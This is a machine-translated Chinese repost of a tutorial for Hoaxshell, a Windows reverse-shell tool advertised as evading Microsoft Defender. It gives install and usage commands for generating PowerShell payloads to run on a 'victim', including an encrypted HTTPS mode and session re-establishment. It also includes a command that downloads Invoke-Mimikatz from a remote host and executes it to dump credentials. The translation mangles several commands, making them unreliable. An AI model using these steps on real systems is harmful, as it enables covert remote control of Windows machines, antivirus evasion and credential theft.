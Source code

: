 # Hoaxshell:一个非常规的 Windows 反向外壳，目前未被微软 Defender 检测到

> 原文：<https://kalilinuxtutorials.com/hoaxshell/>

[![](img//080ac25ff56b648a57cf70d610b64086.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgZ7CVzSUt422s1nDVULD1yIZwtfpRERSTY7NWTboBD2RzNnwVEJexa7geoo5gYAlqMFGDUYlfsdKavJxrcrHBSBm9nOIoBn4WzeOp5oV-tLnl8CjcaR-XVSLQ9Aq1XdbSImZY8TZPl3SYwtkZxEaI7z35t8BMSBSzmvx9YrofERi4_dFSBFTjzFU7k/s470/Hoaxshell-An-Unconventional-Windows-Reverse-Shell-Currently-Undetected-By%20(2)%20(1).png)

Hoaxshell 是一个非常规的 Windows 反向外壳，目前未被 Microsoft Defender 和其他反病毒解决方案检测到，因为它仅基于 http(s)流量。该工具易于使用，它生成自己的 PowerShell 负载，并支持加密(ssl)。

到目前为止，它已经在完全更新的 **Windows 11 Enterprise** 和 **Windows 10 Pro** 机器上进行了测试(见视频和截图)。

## 装置

git 克隆 https://github.com/t3l3machus/hoaxshell
CD。/hoax shell
sudo pip 3 install-r requirements . txt
chmod+x hoax shell . py

## 使用

**重要提示**:作为一种避免检测的方法，每当脚本启动时，hoaxshell 会自动为进程中使用的会话 id、URL 路径和自定义 http 头的名称生成随机值。生成的有效负载将仅对为其生成的实例有效。使用`**-g**`选项绕过这种行为，重新建立一个活动会话，或者使用 hoaxshell 的新实例重用过去生成的有效负载。

#### 【http 上的基本外壳会话

**sudo python 3 hoax shell . py-s**

当您运行 hoaxshell 时，它会生成自己的 PowerShell 有效负载，供您复制并注入到受害者上。默认情况下，为了方便起见，有效负载是 base64 编码的。如果您需要原始有效负载，请执行“rawpayload”提示符命令或使用`**-r**`参数启动 hoaxshell。在受害者上执行有效负载后，您将能够对其运行 PowerShell 命令。

#### 加密外壳会话(https):

**生成自签名证书:
OpenSSL req-x509-new key RSA:2048-keyut key.pem-out cert.pem-days 365
传递 cert . PEM 和 key . PEM 作为参数:
sudo python 3 hoax shell . py-s-c-k**

生成的 PowerShell 有效负载的长度会更长，因为有一个额外的代码块禁用了 ssl 证书验证。

#### 抓取会话模式

如果您意外关闭终端、断电或其他情况，您可以在抓取会话模式下启动 hoaxshell，它将尝试重新建立会话，假设有效负载仍在受害机器上运行。

s**Udo python 3 hoaxshell . py-s-g**

## 限制

如果您执行启动交互式会话的命令，shell 将会挂起。示例:

**这个命令将成功执行，您将不会有任何问题:
powershell 回显“这是一个测试”
但是这个命令将在 hoaxshell 会话中打开一个交互式会话，并将导致 shell 挂起:
powershell
以同样的方式，您执行这个命令不会有任何问题:
cmd /c dir /a
但是这会导致您的 hoaxshell 挂起:
cmd.exe**

因此，如果您想通过 hoaxshell 运行 mimikatz，您需要调用以下命令:

**霍克斯谢尔> IEX(New-Object Net。WebClient)。download string(' http://192 . 168 . 0 . 13:4443/Invoke-mimikatz . PS1 ')；Invoke-Mimikatz -Command 的" " PRIVILEGE::Debug"'**

长话短说，您必须小心不要运行在 hoaxshell powershell 上下文中启动交互式会话的 exe 或 cmd。

[**Download**](https://github.com/t3l3machus/hoaxshell)